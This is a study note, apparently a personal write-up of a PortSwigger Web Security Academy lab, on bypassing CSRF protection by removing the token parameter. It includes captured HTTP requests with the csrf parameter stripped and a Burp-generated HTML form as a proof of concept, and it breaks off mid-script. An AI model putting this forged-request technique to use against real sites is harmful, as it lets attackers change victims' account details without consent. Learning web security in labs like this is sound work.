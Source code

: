 # Validation of CSRF token depends on token being present
Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
```


# Try to solve it yourself.
## [practice](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present) in this laboratory
- change your email 
- see the sending packet
```http
POST /my-account/change-email HTTP/2
Host: 0abb002c04cda0528141b7f900b900ce.web-security-academy.net
Cookie: session=G4G5PrrI5VPcfVdFrGKyvGTJlU11GCSQ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: https://0abb002c04cda0528141b7f900b900ce.web-security-academy.net
Sec-Gpc: 1
Referer: https://0abb002c04cda0528141b7f900b900ce.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=salarr%40gmail.com&csrf=RLW2wBxsSae1E266kY7eSe2ZuO6DOHA5
```
- remove `&csrf=RLW2wBxsSae1E266kY7eSe2ZuO6DOHA5`  and send again
- if response == `302` status code 
	- is working
- generate html code for exploiting  --> by burp suite pro or manually
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0abb002c04cda0528141b7f900b900ce.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="salarr&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
```